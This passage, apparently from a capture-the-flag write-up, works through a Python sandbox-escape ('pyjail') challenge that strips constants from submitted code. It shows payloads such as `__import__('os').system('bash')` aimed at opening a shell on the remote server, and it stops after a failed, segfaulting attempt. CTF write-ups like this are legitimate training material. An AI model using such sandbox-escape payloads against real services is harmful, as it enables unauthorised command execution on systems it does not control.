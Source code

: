 What we see in this program is that the code we provide is compiled, then the constants are changed: all numbers are changed to 0, strings to the empty string, tuples to tuples of None, and any other constants (such as floating point numbers) to None. As part of this code, we are given the output of `vars()` and the `vars` function as input. Let's quickly take a look at what these do:

```python
>>> vars()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> vars()['__builtins__']
<module 'builtins' (built-in)>
>>> vars(vars()['__builtins__'])
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>, origin='built-in'), ...}
```

`vars()` gives us the high level variables, such as the builtins module, while the `vars` function allows us to view the key-value pairs of modules. As part of the pyjail, our ultimate goal is to open a shell on the remote server. The most basic code is:

```python
import os
os.system('bash')
```

Unfortunately, we can't have two statements in a lambda. To circumvent this, we can use:

```python
__import__('os').system('bash')
```

Awesome, let's just wrap this in a lambda function and send it to the server!

```python
lambda x, y: __import__('os').system('bash')
```

```python
(chal.py)
Code: lambda x, y: __import__('os').system('bash')
> ()
C: <code object <lambda> at 0x1008d66b0, file "home", line 1>
> ('__import__', 'system')
C: None
C: os
C: bash
C: <lambda>
[1]    33309 segmentation fault  python3 chal.py
```

Well, that's the first time I've seen Python segfault. So, what went wrong here?

We've got a few things that are problematic:

- Obvious one: our strings are getting cleared.
- Slightly less obvious from this example: we can't actually call the builtin functions directly. This is easy to see if we use the code `lambda x, y: str(x)`:
